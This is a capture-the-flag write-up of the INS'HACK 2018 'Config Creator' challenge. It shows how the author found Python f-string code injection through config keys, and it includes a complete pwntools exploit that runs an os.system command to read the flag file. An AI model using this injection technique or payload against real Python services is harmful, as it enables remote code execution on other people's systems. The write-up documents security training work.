 # Config Creator
##### INS'HACK 2018 (https://ctf.insecurity-insa.fr)
```
I've just written a small utility to create a config file (which are sooo painful to write by han, right?).

Care to have a look?

nc config-creator.ctf.insecurity-insa.fr 10000
```

This pwn challenge did not provide the binary, so "educated guessing" was used to poke around for possible vulnerabilities. The service presents the following menu:
```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit
```

`1. Register a new config entry` allows us to create custom key:value pairs. Fuzzing these and then using `4. Show my config` showed errors when the service failed to parse input:

```
config:
f-string: empty expression not allowed (<string>, line 6)
An error occurred, sorry
```

Researching `f-string` revealed that it was likely a new Python format string format (introduced in version 3.6). This fact can be confirmed by registering a valid config entry and then using `3. Show my template`:

```
template:
f"""
configuration [
    a = {a};
]
"""
```

Looks like a Python f-string. So this pwn challenge is about Python injection. According to the docs, `{}` evalues input before supplying it to the f-string. The vulnerability can be confirmed by creating a key `eval('print(1234)')` with `{}` as value:

```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1

Config key? eval('print(1234)')
Config value? {}

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
1234
eval() arg 1 must be a string, bytes or code object
An error occurred, sorry
```

The program gives an error, but `1234` is printed back, which means injected code executed. Again, according to the docs and as can be confirmed in the challenge, using code with special characters and spaces will not work, because of the way f-strings are parsed. So before evaluating the exploit code, it must first be declared as a value in one key, and then evaluated with the second key. The following exploit does just that:

```python
from pwn import *
import time 

def xrust(data):
    global p
    print p.recvuntil('? ')
    p.sendline(data)

p = remote('config-creator.ctf.insecurity-insa.fr', 10000)

xrust('1') #register
xrust('a')
xrust('__import__("os").system("cat flag.txt")')

xrust('1') #register
xrust('eval(a)')
xrust('{}')

xrust('4') #config
print p.recvline() # INSA{dont_get_me_wrong_i_love_python36}
```
